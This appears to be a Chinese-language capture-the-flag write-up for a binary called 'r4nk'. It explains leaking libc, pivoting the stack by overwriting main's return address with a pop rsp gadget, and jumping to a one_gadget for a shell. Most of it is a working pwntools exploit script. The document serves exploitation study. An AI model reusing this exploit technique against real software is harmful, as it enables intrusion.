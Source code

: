 泄露完libc之后，我们可以先修改栈上返回地址`__libc_start_main+231`为`0x0000000000400980（pop rsp; pop r13;ret;）`
找一些有趣的gadget ，比如pop rsp，在返回之后的add rsp 8; 控制了rsp为0x602100，同时写入0x602100+8地方为`one_gadget`，则成功返回到one_gadget进行getshell

这是一个有趣的栈迁移，通过改写栈上main函数的返回地址来进行栈迁移。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random

local = 1
if local:
	p = process("./r4nk")#,env={'LD_PRELOAD':'./libc_x64.so.6'})
	elf = ELF("./r4nk")
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
	#p = remote('192.168.210.11',11006)
	p = remote('47.92.28.22',30522)
	elf = ELF("./r4nk")
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')


def rank(t,rr):
  p.recvuntil("> ")
  p.sendline("2")
  p.recvuntil("> ")
  p.sendline(str(t))
  p.recvuntil("> ")
  p.sendline(str(rr))

def show(start,end):
  pass
  p.recvuntil(start)
  data = p.recvuntil(end)[:-len(end)]
  return data

if __name__ == '__main__':
  rank(0,0x11)
  p.recvuntil("> ")
  p.sendline("1"+"\x00"*7 + p64(0x000602030))
  p.recvuntil("0. ")
  libc = u64(p.recv(6).ljust(8,"\x00")) - 0x110070
  print("libc = {}".format(hex(libc)))
  magic = libc + 0x4f322
  pop_rsp_1 = 0x0000000000400980
  pause()
  rank(19,pop_rsp_1) # pop rsp; pop r13;ret;
  rank(20,0x602100) # nptr addr (myread output addr) 0x602108 -> one_gadget

  p.recvuntil("> ")
  p.sendline("3" + "\x00"*7 + p64(magic))

  p.interactive()
```
